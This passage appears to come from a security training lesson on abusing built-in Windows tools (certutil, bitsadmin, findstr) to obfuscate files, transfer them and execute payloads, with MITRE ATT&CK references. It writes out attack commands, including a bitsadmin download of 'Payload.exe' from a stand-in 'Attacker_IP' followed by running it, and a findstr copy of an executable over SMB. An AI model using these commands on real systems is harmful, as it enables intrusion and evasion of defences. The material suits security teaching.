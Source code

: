 **-urlcache** to display the URL and enables the URL option to use in the command.

**-split -f** to split and force fetching files from the provided URL.

Also, **certutil.exe** can be used as an encoding tool where we can encode files and decode the content of files. ATT&CK T1027 refers to this technique to obfuscate files to make them difficult to discover or analyze.

> **certutil -encode payload.exe Encoded-payload.txt**

For more information about the tool, you may visit the Microsoft Documentation.

**BITSAdmin**

The **bitsadmin** tool is a system administrator utility that can be used to create, download, or upload Background Intelligent Transfer Service (BITS) jobs and check their progress. BITS is a low-bandwidth and asynchronous method to download and upload files from HTTP web servers and SMB servers. Additional information about the bitsadmin tool can be found at Microsoft Docs. Attackers may abuse BITS jobs to download and execute a malicious payload on a compromised machine. For more information about this technique, you may visit the ATT&CK **T1197 page**.

> **bitsadmin.exe /transfer /Download /priority Foreground Attacker_IP/Payload.exe**
> **payload.exe**

**/Transfer** to use the transfer option.

**/Download** specifies transfer using the download type.

**/Priority** sets the priority of the job to be running in the foreground.

For more information about the **bitsadmin** parameters, you can visit the Microsoft documentation of the tool.

**FindStr**

**Findstr** is a Microsoft built-in tool used to find text and string patterns in files. The findstr tool is useful in helping users and system administrators search within files or parsed output. For example, if we want to check whether port 8080 is open on our machine, we can pipe the result of netstat to find that port as follows: `netstat –an | findstr “445”`.

However, an unintended way was found by using **findstr.exe** to download remote files from SMB shared folders within the network as follows:

> **findstr /V dummystring \\MachineName\ShareFolder\test.exe > c:\windows\Temp\test.exe**

**/V** to print out the lines that don’t contain the string provided.

**dummystring** the text to be searched for; in this case, we provide a string that must not be found in a file.

**> c:\windows\Temp\test.exe** redirects the output to a file on the target machine.

Note that other tools can be used for the file operation. We suggest visiting the LOLBAS project to check them out.

#### **File Execution**

This task shows various ways of executing a binary within the operating system. The typical case of executing a binary involves various known methods such as using the command line **cmd.exe** or from the desktop. However, other ways exist to achieve payload execution by abusing other system binaries, of which one of the reasons is to hide or harden the payload’s process. Based on the MITRE ATT&CK framework, this technique is called **Signed Binary Proxy Execution** or **Indirect Command Execution**, where the attacker leverages other system tools to spawn malicious payloads. This technique also helps to evade defensive controls.
